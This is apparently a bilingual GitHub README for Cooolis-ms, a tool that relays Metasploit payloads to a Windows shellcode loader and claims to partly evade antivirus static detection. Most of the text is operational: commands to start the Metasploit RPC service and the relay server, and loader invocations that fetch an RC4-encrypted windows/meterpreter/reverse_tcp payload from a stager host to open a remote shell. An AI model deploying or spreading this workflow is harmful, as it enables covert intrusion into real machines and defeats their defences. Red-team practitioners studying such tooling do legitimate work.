

# Cooolis-ms

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。


Cooolis-ms is a server that supports the Metasploit Framework RPC. It is used to work with the Shellcode and PE loader. To some extent, it bypasses the static killing of anti-virus software, and allows the Cooolis-ms server to communicate with the Metasploit server. Separation.

<iframe width="560" height="315" src="https://www.youtube.com/embed/xMYZbvn53aY" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

## How to install | 如何安装

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## How to use |  如何使用

你需要先启动Metasploit RPC服务端：

You need to start the Metasploit RPC server first:

IP : 172.16.143.1

```
$ msfrpcd -U msf -P msf -u /api/1.0/
```

接着需要启动Cooolis-ms，使得它连接到RPC，并且监听一个端口，用来发送载荷：

Then you need to start Cooolis-ms so that it connects to the RPC and listens on a port to send the payload:

IP : 172.16.143.1

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 172.16.143.1
```

IP : 172.16.143.2

```
Windows > ConsoleApplication5.exe -p windows/meterpreter/reverse_tcp -s LHOST=172.16.143.1,LPORT=8876,Format=dll -H 172.16.143.1 -P 8899 -c password
```

## Cooolis-ms server

```
usage: Cooolis-ms [-h] -U USERNAME -P PASSWORD [-H HOST] [-p PORT] [-S SERVER]
                  [-l LISTEN] [-u URI] [-t {exe,ruby,c,dll,vbs,powershell}]
                  [-s] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -U USERNAME, --username USERNAME
                        Metasploit web service username
  -P PASSWORD, --password PASSWORD
                        Metasploit web service password
  -H HOST, --host HOST  Metasploit web service host, Default: localhost
  -p PORT, --port PORT  Metasploit RPC service port, Default: 55553
  -S SERVER, --server SERVER
                        Payload sender listen host, Default: localhost
  -l LISTEN, --listen LISTEN
                        Payload listen port, Default: 1111
  -u URI, --uri URI     Metasploit RPC service uri, Default: /api/1.0/
  -t {exe,ruby,c,dll,vbs,powershell}, --type {exe,ruby,c,dll,vbs,powershell}
                        Payload Type
  -s, --ssl             Enable ssl, Default: True
  -v, --versobe         Enable debug
```

## Cooolis-ms Loader




```
[*]Usage : Cooolis-ms.exe -p [PAYLOAD] -s [PAYLOAD OPTIONS] -c [RC4 PASSWORD] -H [Stager Host] -P [Stager Port]
         -p [PAYLOAD]    MSF PAYLOAD TYPE
         -s [PAYLOAD OPTIONS]    MSF PAYLOAD OPTIONS
         -c [RC4 PASSWORD]       Startup RC4 Trans Stager
         -H [Stager Host]        Cooolis-Server Host
         -P [Stager Port]        Cooolis-Server Port
         -D [Default]
[*]Example : Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -s LHOST=192.168.1.1,LPORT=1122 -H 192.168.2.1 -P 4444
```

## About other | 关于其他

~~后续我将会写出Windows平台下的通用加载器客户端集合到这个项目中。~~


~~Subsequent I will write a collection of generic loader clients for the Windows platform into this project.~~

如果你觉得这个项目不错，那就给一个Star～

If you think this project is good, give a Star.

## issue

[I have a question](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
